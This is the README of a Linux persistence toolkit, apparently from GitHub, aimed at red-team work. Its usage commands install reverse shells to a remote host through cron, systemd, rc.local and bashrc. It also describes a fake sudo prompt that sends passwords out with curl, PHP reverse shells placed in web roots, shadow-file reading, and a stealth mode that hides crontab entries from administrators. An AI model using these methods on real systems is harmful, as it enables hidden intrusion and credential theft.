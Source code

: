 # linper

linux persistence toolkit

## files

- countermeasures/ - ways to harden/monitor common persistence mechanisms
- powershell/ - placeholder for the eventual winper
- CONTRIBUTE.md - notes on contributing to this project
- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me

## features

- enumerate programs that can be used to execute a reverse shells and ways to make them persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for accounts that can login via a password
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords
- place php reverse shells in web server directories

## credit

huge shoutout to the maintainers and contributers of [GTFOBins](https://gtfobins.github.io/) as their great resource laid the groundwork for much of this tool

also, thanks to Null Byte and [this article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea and some of the code behind the _Sudo Hijack Attack_ as implemented in this tool 

lastly, thank you to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for their examples on this too. 

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

### emumerate defensive measures

`bash linper.sh --enum-defenses`

`bash linper.sh -e`

### advanced usage

run `bash linper.sh -h` to see all usage examples

## methodology

### installing

1. enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. sudo hijack attack - enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack" that binary

3. web server poison attack - enumerates whether or not the webserver's directories are writable and, if so and dryrun is not set, place a PHP reverse shell in them

4. shadow file enumeration - enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. makes the files related to installing services hidden by prepending a "."

2. disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

### cleaning

1. to remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. to remove shells from crontab, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. to remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. to remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. to remove the `crontab` function installed by `-s, --stealth-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed amd grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

6. to remove the `sudo` function, it looks for the provided RHOST, various variable names used by the function, and the string "function sudo". If all return true, then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file

7. to remove php reverse shells from the web root, recursively greps for any file containing the provided RHOST and removes each file it finds

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- crontab, custom (defualt: every minute)
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary

### web server hijack attack

1. uses /etc/passwd to find the web root
2. installs php reverse shells in all writable directories under web root

